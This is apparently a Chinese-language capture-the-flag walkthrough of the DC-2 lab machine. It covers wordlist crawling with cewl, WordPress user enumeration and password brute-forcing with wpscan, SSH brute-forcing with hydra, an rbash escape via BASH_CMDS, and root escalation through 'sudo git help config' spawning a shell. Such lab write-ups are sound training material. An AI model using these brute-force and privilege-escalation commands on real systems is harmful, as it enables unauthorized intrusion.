



- 扫描端口


目标靶机开启了80与7744端口，访问80端口


发现url写的是dc-2而不是ip，并且访问失败，猜测dns解析失败，配置dns解析
```
vim /etc/hosts
```



再次访问网站成功访问


发现flag，我们点击flag发现提示


cewl经过查询发现是一款以爬虫模式在指定URL上收集单词的工具，可以将它收集到的单词纳入密码字典，以提高密码破解工具的成功率，那么我们直接爬

```
cewl dc-2 >pwd.dic
```

然后我们使用dirsearch进行扫描，发现后台登录页面。并且进行访问



发现是wordpress,那这里我们使用wordpress专用扫描器进行信息搜集，首先查询一下用户名泄露

```
wpscan --update
wpscan --url dc-w -e u
```


可以看到出来了三个用户名,admin,jerry,tom,那么我们尝试对其进行密码爆破

```
wpscan --url dc-2 -U admin,jerry,tom -P pwd.dic
```



可以看到出来了两个用户名和密码，那我们登录看看,发现可以成功登录,经过查找，tom没有发现有用的信息，jerry的消息中存在flag2，进行查看


提示是另一种方法，联想到开启了两个端口，一个80http，一个7744ssh，那么我们就尝试进行爆破ssh
```
hydra -L 1.txt -P pwd.dic -t 64 -e ns 192.168.9.132 ssh -s 7744
```


成功出来了一个，那我们进行登录


登陆成功，发现flag3.txt,但是发现是rbash,,,,,,我们需要绕过rbash才可以获取flag3.txt

## 绕过rbash
```
BASH_CMDS[a]=/bin/sh;a
/bin/bash
```

## 添加环境变量
```
export PATH=$PATH:/bin/
export PATH=$PATH:/usr/bin
```


绕过rbash成功，拿到了flag3.txt的内容，根据提示我们尝试登录jerry,密码adipiscing成功登录，进入jerry家目录成功拿到flag4.txt


最后一步flag在root家目录，我们要提权

sudo -l


发现git不需要密码，那么就进行sudo提权，第一次尝试
```
sudo git -p --help
```

失败，无法进入强制交互模式

```
sudo git help config
!/bin/bash
```


成功提权，获取flag